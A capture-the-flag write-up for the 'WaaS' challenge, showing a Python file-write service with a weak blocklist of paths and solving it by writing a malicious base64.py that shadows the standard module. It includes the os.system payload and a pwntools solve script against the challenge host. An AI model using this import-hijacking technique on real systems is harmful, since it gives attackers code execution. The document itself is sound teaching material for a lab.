 +++
title = 'WaaS'
date = 2024-08-06T11:27:07+02:00
tags = [
  "Misc",
  "Python",
  "491 points",
  "78 solves",
  "NoobMaster + NoobHacker"
]
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Waas</h1>

**Description**: Writing as a Service!

## Introduction

WaaS (Writing as a Service) allows us to overwrite a file on the system (after some input validation) and insert anything (until a newline is met) we want in it.

```python
import subprocess
from base64 import b64decode as d
while True:
        print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
        try:
                inp = int(input("Choice: ").strip())
        except:
                print("Invalid input!")
                exit(0)
        if inp == 1:
                file = input("Enter file name: ").strip()
                assert file.count('.') <= 2 # Why do you need more?
                assert "/proc" not in file # Why do you need to write there?
                assert "/bin" not in file # Why do you need to write there?
                assert "\n" not in file # Why do you need these?
                assert "chall" not in file # Don't be overwriting my files!
                try:
                        f = open(file,'w')
                except:
                        print("Error! Maybe the file does not exist?")

                f.write(input("Data: ").strip())
                f.close()
                print("Data written sucessfully!")

        if inp == 2:
                flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
                print(flag.stdout.strip())
```

## Solution

At first one may think of trying to bypass the input validation to perhaps rewrite the workings of the cat command or the challenge file itself, but this isn't possible.
Something very bizarre is the imported but unused `b64decode` from the `base64` module, which is what allows us to solve the challenge.
When python imports modules it looks in `sys.path`, which has a list of valid directories to import modules from. After a quick scan through the [python3 docs](https://docs.python.org/3/library/sys_path_init.html) we find out that the first directory it looks through is the same directory the file is in, this means that if we have a `base64.py` file in the directory then python will try to import a `b64decode` symbol from that file instead of the common known module.
One more feature of python's import behavior we can use is the that all the code in an imported module will be executed. For example if a file `test.py` has `print('Hello, World!')` and it can be executed (for example if it's at the lowest indentation level) then a file with `import test` will indeed see `Hello, World!` printed to `stdout`.
Therefore, since the `open` function with a `'w'` flag will create a file if it does not exist, we can simply create a file named `base64.py` and write our malicious code in it.
Something like this will do the trick:

```python
import os; b64decode = 0; os.system("cat flag.txt")
```

But the flag isn't our yet; we need to use the fact that the instance does not reset its files every time we connect to it, which means that our `base64.py` will remain in the directory for the lifetime of the instance. This means we simply need to reconnect to it and get our flag.

`solve.py`

```python
from pwn import *

def solve():
  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance

  r.sendlineafter(b'Choice: ', b'1') # 1 to write a file
  r.sendlineafter(b'Enter file name: ', b'base64.py')
  r.sendlineafter(b'Data: ', b'import os; b64decode = 0; os.system("cat flag.txt")')

  r.close()

  r = remote('challs.n00bzunit3d.xyz', 10478) # PORT depends on the instance
  flag = r.recvline().decode()
  print(f'flag: {flag}')
  r.close()

if __name__ == '__main__':
  solve()
```

```
$ flag: n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_f5c63f47af0e}
```

<p align="right">Author: vympel</p>
